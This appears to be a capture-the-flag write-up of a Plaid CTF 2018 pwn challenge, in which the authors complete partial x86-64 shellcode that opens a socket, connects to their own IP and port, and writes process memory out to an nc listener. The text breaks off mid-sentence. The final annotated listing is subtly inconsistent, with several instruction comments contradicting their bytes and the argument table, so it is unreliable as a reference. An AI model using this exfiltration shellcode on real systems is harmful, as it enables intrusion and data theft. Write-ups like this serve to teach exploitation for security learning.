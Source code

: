```yaml
---
layout: post
title:  "Plaid CTF 2018: Wait Wait... Don't Shell Me (125 pts)"
date:   2018-05-07 3:12:44 -0500
categories: ctfs pwn
---
```


This problem was categorized under "Misc" and was worth only 125 points. Nevertheless, it was one of the harder challenges and received only 14 solves. [ghostly_gray](https://raywang.tech), [fasano](http://nation.state.actor/), and I worked on it for several hours over the course of the CTF, but we only solved it after the CTF had ended.

The challenge was themed around the NPR Quiz Show *[Wait Wait... Don't Tell Me!](https://en.wikipedia.org/wiki/Wait_Wait..._Don%27t_Tell_Me!)* and consisted solely of an address and port to connect to.

When you connect, this is what you see:

```
[~]> nc wwdsm.chal.pwning.xxx 6615
From PPP and PCTF Pittsburgh, this is

+---------------------------------------------------------------------------+
|                       Wait Wait... Don't Shell Me!                        |
+---------------------------------------------------------------------------+

The PPP Flage Quiz.

Now it's time for

----------------------- Shellcode, Fill in the Blank. -----------------------

The rules are these: contestants get 60 seconds to answer as many fill in the
hex byte questions as possible. If you manage to complete the shellcode, you
win! We have flipped a coin, and Pwner was chosen to go first. Pwner, you're
up. Time begins as soon as you connect, so answer quickly!

b8 __ __ __ __ bf __ __ __ __ be __ __ __ __ ba
__ __ __ __ 01 c7 29 fe 21 f2 0f 05 48 b8 __ __
__ __ __ __ __ __ 50 b8 __ __ __ __ ba __ __ __
__ bf __ __ __ __ 48 89 __ 0f 05 be __ __ __ __
bf __ __ __ __ ba __ __ __ __ 83 c0 __ 0f 05 89
__ b8 __ __ __ __ bf __ __ __ __ 41 ba __ __ __
__ 0f 05 58

?
```

Basically, they gave us some partially filled-in shellcode. We had to fill in the blanks so that the shellcode would give us the flag when run. Sometime in the middle of the competition, the organizers released a hint stating that the server closes stdin/stdout before executing our shellcode.

Here's the partial shellcode they gave us, reformatted and annotated:

```assembly
b8 __ __ __ __                 mov     eax,  ????????
bf __ __ __ __                 mov     edi,  ????????
be __ __ __ __                 mov     esi,  ????????
ba __ __ __ __                 mov     edx,  ????????
01 c7                          add     edi,  eax
29 fe                          sub     esi,  edi
21 f2                          and     edx,  esi
0f 05                          syscall
48 b8 __ __ __ __ __ __ __ __  movabs  rax,  ????????????????
50                             push    rax
b8 __ __ __ __                 mov     eax,  ????????
ba __ __ __ __                 mov     edx,  ????????
bf __ __ __ __                 mov     edi,  ????????
48 89 __                       mov     r??,  r??
0f 05                          syscall
be __ __ __ __                 mov     esi,  ????????
bf __ __ __ __                 mov     edi,  ????????
ba __ __ __ __                 mov     edx,  ????????
83 c0 __                       add     eax,  ???
0f 05                          syscall
89 __                          mov     e??,  e??
b8 __ __ __ __                 mov     eax,  ????????
bf __ __ __ __                 mov     edi,  ????????
41 ba __ __ __  __             mov     r10d, ????????
0f 05                          syscall
58                             pop rax
```

At first glance it looks pretty straightforward: they let us make 4 syscalls, and give us access to the arguments (passed in `rdi`, `rsi`, `rdx`, and `r10d` in order in x86-64) and to the syscall number (passed in `rax`). However, we struggled to cobble together four syscalls to do what we wanted.

Here's what we needed to do:
* Since stdin and stdout are closed, we needed to open a socket to our local machine. This requires two syscalls: [socket](http://man7.org/linux/man-pages/man2/socket.2.html) and [connect](http://man7.org/linux/man-pages/man2/connect.2.html).
* We need to either launch a reverse shell, which requires one syscall, [execve](http://man7.org/linux/man-pages/man2/execve.2.html), or we need to [open](http://man7.org/linux/man-pages/man2/open.2.html) the flag file, [read](http://man7.org/linux/man-pages/man2/read.2.html) it into memory, and then [write](http://man7.org/linux/man-pages/man2/write.2.html) it to our socket, which requires 3 syscalls.

There are two major roadblocks in our way. First, several of the above syscalls, specifically connect, execve, and open, have pointers as arguments rather than just immediates. However, only one of our four allowed syscalls let us specify a pointer as an argument. Notice that before we execute our second syscall, we get to move a 64-bit immediate into `rax`, and then push it on to the stack. If we then `mov rsi, rsp` using the last instruction before the second syscall, we can put a pointer to our 64-bit immediate in our second argument.

We eventually used this to point to a `sockaddr` struct for the second argument of connect. This meant that we had no way of specifying the string `/bin/sh` or the string `flag.txt` for the execve or open syscalls.

The second roadblock is that if we go the open / read / write route instead of using execve, we'll need a total of 2 + 3 = 5 syscalls instead of the four we're given.

We resolved this issue by considering the fourth syscall we were allowed to make in closer detail. Notice that the last instruction before the syscall allows us to move something into `r10d`, the fourth argument. However, none of the syscalls that we'd been considering using had more than three arguments. We then searched the [syscall table](http://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/) for four-argument functions that could be of use, and we found [sendfile](http://man7.org/linux/man-pages/man2/sendfile.2.html).

sendfile allows us to specify an *in* and an *out* file descriptor, and send `count` bytes from the *in* file to the *out* file. If we first open `flag.txt`, we can send it's contents to our socket using just four total syscalls: socket, connect, open, and sendfile.

This was where we got stuck during the CTF. We couldn't figure out how to get around our first problem: how do we send a pointer to a string as an argument, when we can only move immediates into registers?

After a good night's sleep, we figured out what we were missing: with some luck, the binary would contain some helpful string loaded into memory. We could first use socket / connect / write to dump memory and locate something helpful. After this insight, we quickly finished the challenge.

## socket / connect / write

First: socket. socket takes 3 arguments: `int domain` (the protocol family), `int type` (the type of socket), and `int protocol`, the chosen protocol. For us, the `domain` was `AF_INET` = 2 (which corresponds to IPv4), the `type` was `SOCK_STREAM` = 1 (a standard, two-way socket), and the `protocol` was 0. Finally, the syscall number was 41. (You can look up syscall arguments and numbers in any syscall table. I generally use [this one](http://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/) for x86-64 and [this one](https://syscalls.kernelgrok.com/) for x86).

socket's return value (stored in `rax`) is the file descriptor of the opened socket. Our shellcode immediately clobbers `rax` after the syscall, but we know that the file descriptor should be 0, since stdin and stdout were both closed.

Next: connect. connect takes 3 arguments: `int fd` (the file descriptor of our socket), `struct sockaddr *uservaddr` (a pointer to a `sockaddr` struct which specifies the IP and port to connect to), and `int addrlen` (the size of the `uservaddr` struct). As we said earlier, `fd` is 0. `uservaddr` is harder. For this, we have to fit our struct into 8 bytes, use `movabs` to put it in `rax`, push `rax`, and then move `esp` into `esi` to point our second argument to our struct.

The struct looks like this:
```c
struct sockaddr {
	u_char	sa_len;       /* total length */
	u_char	sa_family;		/* address family */
	char	  sa_data[14];	/* actually longer; address value */*/
};
```

For us, `sa_len` = 2, `sa_family` = 0, and the `sa_data` field which specifies the address and port was `[0x44, 0x44, 18, 126, 0, 36]` which corresponds to an IP address of 18.126.0.36 and a port of 0x4444 = 17476. The full struct was then: `02004444127e0024`. In little endian, this corresponds to the 64-bit integer 0x24007e1244440002.

Finally, the `addrlen` field is 16, since our struct is 16 bytes long, and the syscall number is 42.

Next: write. write takes 3 arguments: `int fd` (the file descriptor to write to), `const char *buf` (a pointer to the buffer to write from), and `size_t count` (how many bytes to write). `fd` is our socket, which has file descriptor 0. We'll have `const char *buf` point to the base address of our ELF file, which varies depending on how it's built. We had to play around with this value a bit, but it turned out to be 0x400000. We set `count` to 0x1000 to read 4096 bytes and set the syscall number to 1.

In summary, here are the arguments we must set for our three syscalls:

| Syscall | `eax` | `edi` | `esi`              | `edx`  |
| ------- | ----- | ----- | ------------------ | -----  |
| socket  | 41    | 2     | 1                  | 0      |
| connect | 42    | 0     | 0x24007e1244440002 | 16     |
| write   | 1     | 0     | 0x400000           | 0x1000 |


Here is our filled in, annotated shellcode:

```assembly
b8 29 00 00 00          mov    eax,  0x29  // 0x29 = 41
bf d9 ff ff ff          mov    edi,  0xffffffd9
be 03 00 00 00          mov    esi,  0x3
ba 00 00 00 00          mov    edx,  0x0
01 c7                   add    edi,  eax   // 00xffffffd9 + 0x29 = 2
29 fe                   sub    esi,  edi   // 0x3 - 1 = 1
21 f2                   and    edx,  esi   // 0 & 1 = 0
0f 05                   syscall
48 b8 02 00 44 44 12    movabs rax,  0x24007e1244440002
7e 00 24
50                      push   rax
b8 2a 00 00 00          mov    eax,  0x2a  // 0x2a = 42
ba 10 00 00 00          mov    edx,  0x10  // 0x10 = 16
bf 00 00 00 00          mov    edi,  0x0
48 89 e6                mov    rsi,  rsp   // rsi points to 02004444127e0024
0f 05                   syscall
be 00 00 00 00          mov    esi,  0x0
bf b8 0c 40 00          mov    edi,  0x400000
ba 00 00 00 00          mov    edx,  0x0
83 c0 02                add    eax,  0x2
0f 05                   syscall
89 c6                   mov    esi,  eax   // we're not using this syscall
b8 28 00 00 00          mov    eax,  0x0
bf 00 00 00 00          mov    edi,  0x0
41 ba 80 00 00 00       mov    r10d, 0x0
0f 05                   syscall
58                      pop    rax
```

Note that `edi`, `esi`, and `edx` are manipulated by the shellcode before the first syscall, so we have to do a little math to make them end up at the right values.

## Running it

First, we setup a netcat listener on our local machine with IP address 18using `nc -l 17476`
